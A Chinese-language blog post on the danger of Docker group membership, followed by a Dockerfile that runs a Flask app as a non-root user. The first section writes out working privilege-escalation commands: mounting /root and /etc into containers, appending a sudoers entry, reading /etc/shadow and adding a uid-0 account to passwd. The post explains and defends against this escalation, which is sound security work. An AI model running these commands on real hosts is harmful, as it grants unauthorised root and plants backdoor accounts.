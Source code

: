 ```yaml
---
title: Docker中Root权限的危害性
date: 2022-08-12 20:14:52
slug: docker-root-danger
tags:
  - Docker
  - Security
categories:
  - Security
  - Container

---
```


## 一、在docker使用root用户越权案例

如果一个普通用户，并且这个用户在docker组，则这个用户已经是root了。

### 方法一

假如我们有一个用户demo，它本身不具有sudo的权限，所以就有很多文件无法进行读写操作，例如它无法查看 /root 目录

```bash
sudo adduser demo
sudo groupadd docker
```

```bash
demo@ubuntu-VirtualBox:/home$ sudo ls /root
[sudo] password for demo: 
demo is not in the sudoers file.  This incident will be reported.
```

但是这个用户在docker的group里，具有执行docker的权限

```bash
demo@ubuntu-VirtualBox:/home$ groups
demo docker
demo@ubuntu-VirtualBox:/home$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
busybox             latest              a416a98b71e2        3 weeks ago         4.26MB
ubuntu              18.04               f9a80a55f492        2 months ago        63.2MB
```

那么，我们就可以通过docker做很多越权的事情了。比如，我们可以把无法查看 /root目录映射到 docker 容器里，就可以自由进行查看了。

```bash
demo@ubuntu-VirtualBox:/home$ docker run -it -v /root/:/root/tmp busybox sh
/ # 
/ # cd /root
~ # ls
tmp
```

甚至我们可以给demo用户加sudo权限。

```bash
// 没有sudo权限
demo@ubuntu-VirtualBox:/home/ubuntu$ sudo vim /etc/sudoers
[sudo] password for demo: 
demo is not in the sudoers file.  This incident will be reported.
demo@ubuntu-VirtualBox:/home/ubuntu$ 
```

```bash
// 加sudo权限
demo@ubuntu-VirtualBox:/home$ docker run -it -v /etc/sudoers:/root/sudoers busybox sh
/ # 
/ # echo "demo    ALL=(ALL)       ALL" >> /root/sudoers
/ # cat /root/sudoers | grep demo
demo    ALL=(ALL)       ALL
```

退出容器，就有用户demo就有sudo权限了。


### 方法二、

将 /etc/ 目录挂载进 Docker，查看 shadow 和 passwd

```bash
adduser test
usermod -G docker test
```

```bash
docker run -v /etc/:/mnt -it alpine
cd /mnt
cat shadow
```

```bash
openssl passwd -1 -salt test-docker

echo 'test-docker:saltpasswd:0:0::/root:/bin/bash' >>passwd
```

```bash
ubuntu@ubuntu-VirtualBox:/tmp$ su test-docker
Password: xxx
root@ubuntu-VirtualBox:/tmp# 
```



## 二、如何使用非root用户

使用root用户的Dockerfile

```dockerfile
FROM python:3.9.5-slim

RUN pip install flask

COPY app.py /src/app.py

WORKDIR /src
ENV FLASK_APP=app.py

EXPOSE 5000

CMD ["flask", "run", "-h", "0.0.0.0"]
```

不使用root用户的Dockerfile，指定特定的用户和用户组flask

```dockerfile
FROM python:3.9.5-slim

RUN pip install flask && \
    groupadd -r flask && useradd -r -g flask flask && \
    mkdir /src && \
    chown -R flask:flask /src

USER flask

COPY app.py /src/app.py

WORKDIR /src
ENV FLASK_APP=app.py

EXPOSE 5000

CMD ["flask", "run", "-h", "0.0.0.0"]
```


